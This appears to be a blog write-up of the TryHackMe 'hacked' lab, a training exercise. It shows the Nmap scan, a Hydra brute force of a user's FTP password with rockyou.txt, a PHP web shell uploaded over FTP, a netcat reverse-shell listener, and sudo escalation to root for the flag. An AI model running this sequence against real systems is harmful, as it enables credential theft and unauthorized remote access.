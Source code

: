 ```yaml
---
title: Try Hack Me - hacked
date: 2021-03-20 16:32 +0300
categories: [Try Hack Me]
<! -- tags: [linux,hydra]     # TAG names should always be lowercase -->
---
```


# Welcome

Hey there! Glad to see you again.

# Nmap

Scanning with Nmap :-)! Just for sure.

<pre class="highlighter-rouge highlight">
Nmap scan report for 10.10.33.97
Host is up (0.072s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.0.8 or later
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 2.6.32 (92%), Linux 2.6.39 - 3.2 (92%), Linux 3.1 - 3.2 (92%), Linux 3.2 - 4.9 (92%), Linux 3.5 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
</pre>


# Hydra

As we could see on pcap file the attacker did brute force with Hydra. Let's repeat.

<pre>
hydra -l jenny -P /opt/rockyou.txt ftp://10.10.33.97
==========================================================================================================================
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-03-24 15:29:35
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ftp://10.10.33.97:21/
[21][ftp] host: 10.10.33.97   login: jenny   password: *********
1 of 1 target successfully completed, 1 valid password found
</pre>

We found the changed password. Great!

# FTP

On FTP service we can see <code class="language-plaintext highlighter-rouge">shell.php</code> file. Let's upload our own shell.

<pre>
put myshell.php
chmod 777 myshell.php
</pre>


# Web Page

Turn on listener

<pre>nc -lvnp 1234</pre>

On the browser run our shell 

<pre> 10.10.33.97/myshell.php </pre>

and we get the connection.


# Privilage Escalation
Let's change to user Jenny and see what she can do
<pre>
sudo jenny
Password: *********
sudo -l
Matching Defaults entries for jenny on wir3:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jenny may run the following commands on wir3:
    (ALL : ALL) ALL
</pre>

Waw. No protection. Let's cat the flag.txt file

<pre>
sudo -i
cat /root/Reptile/flag.txt
</pre>


